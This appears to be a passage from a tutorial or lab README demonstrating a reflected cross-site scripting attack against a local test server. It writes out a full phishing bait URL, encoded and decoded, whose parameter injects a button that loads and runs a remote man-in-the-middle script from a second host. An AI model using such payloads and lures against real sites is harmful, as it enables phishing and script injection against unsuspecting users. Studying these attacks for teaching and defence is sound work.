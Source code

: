 ![Screenshot](VictimLiteServer.png)


## Set the bait for Victim

We will set the bait for the Victim by emailing the victim with the chance to win prize on the legitimate webserver domain by changing the values in the parameter. The legitimate webserver running for the domain localhost:4000. 

URL/Link:  
`http://localhost:4000/?Name=John%20Doe%20you%20have%20Big%20Bonanza%20Offer:%20%3Cinput%20type=%27button%27%20title=%27Big%20Bonanza%20Offer%27%20value=%27Scratch%20Card%27%20onclick=%22if(document.getElementById(%27SomeFlag%27)==undefined)%20{%20maliciousScript%20=%20document.createElement(%27script%27);%20maliciousScript.src%20=%20%27http://localhost:3000/ManInTheMiddelAttack.js%27;%20document.body.appendChild(maliciousScript);%20someFlag%20=%20document.createElement(%27SomeFlag%27);%20someFlag.id%20=%20%27SomeFlag%27;%20document.body.appendChild(someFlag);%20alert(%27You%20will%20get%20an%20email%20notification%20for%20the%20offer%27);%20setTimeout(%20function()%20{%20injectManInTheMiddleScript();%20}%20,%201000);%20}%20%22%20/%3E`

URL Explanation:  
- We have not changed the domain name at all. 
- The hack is place as the value for the parameter 'Name'.
- The value of the 'Name' Parameter is:
    * John Doe you have Big Bonanza Offer: <input type='button' title='Big Bonanza Offer' value='Scratch Card' onclick="if(document.getElementById('SomeFlag')==undefined) { maliciousScript = document.createElement('script'); maliciousScript.src = 'http://localhost:3000/ManInTheMiddelAttack.js'; document.body.appendChild(maliciousScript); someFlag = document.createElement('SomeFlag'); someFlag.id = 'SomeFlag'; document.body.appendChild(someFlag); alert('You will get an email notification for the offer'); setTimeout( function() { injectManInTheMiddleScript(); } , 1000); } " />
- The value gets embedded as an innerHtml within the page performing the exploit as follows:  
![Screenshot](TransformmedInnerHtml.png)  
- Upon clicking the ***bait*** link will gets a message:  
    * Behind the scene a Malicious javascript file get attached to the web page  